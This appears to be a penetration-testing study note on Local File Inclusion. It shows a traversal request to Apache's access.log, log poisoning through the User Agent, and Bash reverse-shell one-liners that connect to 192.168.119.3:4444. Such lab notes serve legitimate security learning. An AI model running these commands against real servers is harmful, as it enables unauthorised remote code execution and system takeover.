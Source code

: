 ## File Inclusion Vulnerabilities
> 1. How to exploit a Local File Inclusion (LFI) vulnerability\
> 2. Analyze the differences between File Inclusion and Directory Traversal vulnerabilities

### 1. Local File Inclusion (LFI)
>[!Caution]
> - `Directory traversal`
> only allows us to read the contents of a file    
> - `File inclusion`
> we can use file inclusion vulnerabilities to execute local or remote files, can also display the file contents of non-executable files.
>
> Goal: **obtain Remote Code Execution (RCE) via an LFI vulnerability**  

#### Case study: Executable code to Apache's access.log file in the /var/log/apache2/ directory
##### (1) review what information is controlled by us and saved by Apache in the related log
Log entry of Apache's access.log
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```
> User Agent is included in the log entry
>> Modify the User Agent in Burp and specify what will be written to the access.log file
    
##### (2) modify the User Agent to include the PHP code snippet of the following listing
![image](https://hackmd.io/_uploads/HJaO4Fuzyl.png)

##### (3) enter a command for the PHP snippet & remove the User Agent line
![image](https://hackmd.io/_uploads/rJJ0rY_zkx.png)
> executed ps command that was written to the access.log 

##### (4) **get a reverse shell or add our SSH key to the authorized_keys file for a user**
- Bash TCP reverse shell one-liner:
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
>[!Important]
> Since we'll execute our command through the `PHP system function`, we should be aware that the command may be executed via the `Bourne Shell (sh)`.    
- sh rather than Bash
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
![image](https://hackmd.io/_uploads/rJWddFuGkg.png)
![image](https://hackmd.io/_uploads/B1osOKuf1e.png)
